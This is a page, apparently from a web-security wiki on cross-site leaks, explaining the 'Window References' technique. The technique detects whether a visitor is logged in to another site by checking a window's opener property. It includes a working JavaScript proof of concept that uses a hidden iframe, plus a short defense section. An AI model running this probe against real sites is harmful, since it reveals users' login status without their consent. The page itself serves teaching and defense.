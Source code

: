 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its opener property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) depending on users' login status, it becomes possible to detect user's current status. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply checking its window reference.

## Code Snippet
The below snippet demonstrates the attack where the target page is supposedly only accessible to authenticated users and is setting its `opener` property to null (or is using COOP with value other than `unsafe-none`):

```javascript
// define vulnerable URL
const url = 'https://example.org/profile';

const exploit = url => {
  // let's use iframe to make the attack a little more stealthier and to avoid browsers' pop-up blockers
  document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks" style="height:700px;width:100%;display:none">');  // insert an invisible iframe
  
  // open the url in iframe and save the reference as win
  const win = open(url, 'xsleaks');
  
  // wait 2 seconds to let the page load
  setTimeout(() => {
    // check the opener property of the newly opened window
    if(!win.opener) console.log('User\'s logged in- reference not defined');
  }, 2000);
}
exploit(url);
```
In case the page is not framable (or uses SameSite cookies), we can instead open the page in a new tab (`target="_blank"`) and achieve the same.
{{< hint tip >}}
The POC only works when `opener` is set to `null` either via JavaScript or using rel="noopener" (or alternative). Pages using COOP requires opening in a new window as they don't work in nested browsing context.
{{< /hint >}}

{{< hint tip >}}
Using a third parameter of `noopener` in [window.open](https://developer.mozilla.org/en-US/docs/Web/API/Window/open#Window_features) also sets `opener` to `null` which is exactly like setting `rel="noopener"` in anchor links.
{{< /hint >}}

## Defense

The mitigation of this XS-Leak is to be consistent everywhere- set it to the same value in all pages using COOP. Using JavaScript to set `opener` to `null` may have edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.
